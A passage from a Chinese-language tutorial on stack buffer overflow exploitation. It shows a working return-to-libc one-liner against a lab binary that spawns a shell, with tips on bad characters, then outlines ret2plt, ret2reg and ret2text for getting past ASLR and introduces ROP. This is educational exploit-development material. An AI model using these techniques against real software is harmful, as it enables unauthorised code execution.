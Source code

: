 ```
0x8048d72:   ".gnu.hash"
```

- 第一个使用return to libc的exploit

更换命令地址后，便可成功使用return to libc启动shell

```
$ ./bof $(python -c 'print "A" * 140 + "\x80\xfd\xe3\xf7" + "\xb0\x39\xe3\xf7" + "\x79\x8d\x04\x08" + "\0\0\0\0"')
argv[1]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
$ id
uid=1000(sh4rk) gid=1000(sh4rk) groups=1000(sh4rk),27(sudo)
$ 
```

> 要使用'/bin/sh'等字符串也可以不用在libc或其他地方搜索，可以自己构造，通过ROP调用read等函数写在.bss段首地址即可，这里是全局变量的地方，地址固定方便定位，可以用于存储字符串等数据。

> 另外这里通过命令行传入地址带0x20,0x0a等特殊字符被截断，除了可以尝试换用其他可选地址外，另一种简单做法是将相关参数放入双引号内

## return to plt

如果动态共享库的地址随机化保护开启，则无法知道libc地址。

而程序中已经引用的动态库函数，可以直接通过plt调用，无需知道实际地址。

## return to reg

前面已经提到，使用jmp esp\call esp\call eax之类的指令地址覆盖来完成跳转，即ret2reg，可以避免硬编码shellcode地址，可用于绕过ASLR。

> ASLR开启时，只是栈、堆、动态库随机化，程序本身本身的加载地址依然固定。

## return to text

使用程序中已有的函数地址覆盖，可以实现调用程序中的函数



## ROP (Return Oriented Programming)

在前面利用return to libc，我们调用了system("/bin/sh")和exit(0)，system()和exit()函数本质上都是以ret指令结尾的代码片段，考虑如果是其他ret结尾的代码片段，例如几条指令组成的小代码片段，也是同样可行的。

![img](images/从栈溢出到ROP/rop.png)
